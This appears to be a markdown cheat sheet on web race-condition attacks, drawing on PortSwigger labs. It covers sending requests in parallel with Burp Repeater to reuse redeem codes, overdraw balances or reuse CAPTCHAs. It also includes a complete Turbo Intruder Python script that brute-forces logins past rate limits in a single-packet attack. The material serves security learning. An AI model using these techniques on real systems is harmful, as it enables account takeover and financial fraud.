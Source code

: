 ### Submitting a form multiple times using Burp repeater
1. Create a group and duplicate tabs within it.
2. Click the drop-down arrow by the side of the Send button and select "Send group in parallel"
3. Click Send group. Repeater sends all of the requests from the grouped tabs.
#### Things to do:
  Using a redeem code multiple times
  
  Rating a product multiple times
  
  Withdrawing or transferring cash in excess of your account balance
  
  Reusing a single CAPTCHA solution
  
### Bypassing Rate limiting using Turbo Intruder

Turbo Intruder is suited to more complex attacks, such as ones that require multiple retries, staggered request timing, or an extremely large number of requests.

### Probe for clues
1. Observe that after (x) number of concurent failed login attempts, you're temporarily locked out.

2. Send the group of requests again in parallel.

3. Study the responses. Notice that although you have triggered the account lock, more than (x) requests received the normal Invalid username and password response.

4. Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

### Proof-of-concept
1. Highlight the part you wanna brute-force (password=%s)
2. Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.
3. From the drop-down menu, select the examples/race-single-packet-attack.py template
4. In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

'''
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

'''

# Refrences
https://portswigger.net/web-security/race-conditions

https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local

https://sakurity.com/blog/2015/05/21/starbucks.html

https://github.com/TheHackerDev/race-the-web
